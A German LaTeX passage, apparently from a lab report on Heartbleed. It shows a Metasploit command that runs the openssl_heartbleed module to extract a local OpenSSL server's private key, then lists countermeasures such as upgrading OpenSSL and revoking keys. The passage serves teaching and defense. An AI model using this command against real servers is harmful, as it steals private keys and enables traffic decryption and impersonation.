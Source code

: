 Nun wird versucht, mittels Metasploit den Private Key des Servers auszulesen. Üblicherweise wird Metasploit als selbstständige Konsole gestartet, auf welcher einzelne Befehle zur Konfiguration des Angriffs nacheinander eingegeben werden. Diese Befehle werden stattdessen hier mit  direkt als Parameter angegeben.

\begin{lstlisting}[caption={Metasploit-Plugin zum Angriff auf den OpenSSL-Server},label=lst:metasploit_heartbleed]
msfconsole -x '
	# Lade das Heartbleed-Plugin
	use auxiliary/scanner/ssl/openssl_heartbleed;
	# Setze den Modus auf Gewinnung des Private Keys
	set action KEYS;
	# IP des Zielservers
	set RHOSTS 127.0.0.1;
	# Port des SSL-Dienstes
	set RPORT 8989;
	# erweitere Ausgabe
	set verbose true;
	# Starte den Exploit
	exploit;
	# Beende Metasploit
	exit;
'
\end{lstlisting}


Nach Start der Metasploit-Konsole -- was einige Zeit in Anspruch nehmen kann -- wird der OpenSSL-Server automatisiert angegriffen und bei Erfolg der Private Key auf der Konsole ausgegeben. Dieser sollte identisch zum zuvor vom Opfer erzeugten Private Key sein, der in dessen Konsole ausgegeben worden ist.




\section{Gegenmaßnahmen}
Veraltete OpenSSL-Bibliotheken sollten aktualisiert werden. Sicher vor Heartbleed ist OpenSSL ab Version 1.0.1g, aktuell ist die Version 1.1.0c\footnote{Stand Dezember 2016}. Zudem sollten alle privaten Schlüssel des Servers als kompromittiert betrachtet, widerrufen\footnote{Stichwort Certificate Revocation List} und ersetzt werden.